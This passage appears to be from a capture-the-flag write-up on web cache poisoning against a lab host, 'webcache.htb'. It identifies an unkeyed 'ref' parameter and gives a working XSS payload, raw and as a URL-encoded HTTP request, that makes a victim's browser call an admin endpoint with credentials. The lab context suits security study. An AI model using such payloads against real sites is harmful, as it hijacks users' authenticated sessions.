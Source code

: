 ![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/wcp/Pasted%20image%2020231223173520.png)
When we send a different value in language parameter, we can see that the response differs and we get a ceche miss, therebefore the language parameter has to be keyed.

Both the language parameter and content are **KEYED**
![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/wcp/Pasted%20image%2020231223183053.png)

The ref parameter is unkeyed, now we need to find how this parameter influence in the response content (maybe reflected)
![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/wcp/Pasted%20image%2020231223183205.png)

Payload XSS in Unkeyed Parameter

```js
"><script>var xhr=new XMLHttpRequest();xhr.open('GET','/admin.php?reveal_flag=1',true);xhr.withCredentials=true;xhr.send();</script>
```

```http
GET /index.php?language=de&ref=%22%3E%3Cscript%3Evar%20xhr%20=%20new%20XMLHttpRequest();xhr.open(%27GET%27,%20%27/admin.php?reveal_flag=1%27,%20true);xhr.withCredentials%20=%20true;xhr.send();%3C/script%3E HTTP/1.1
Host: webcache.htb
```
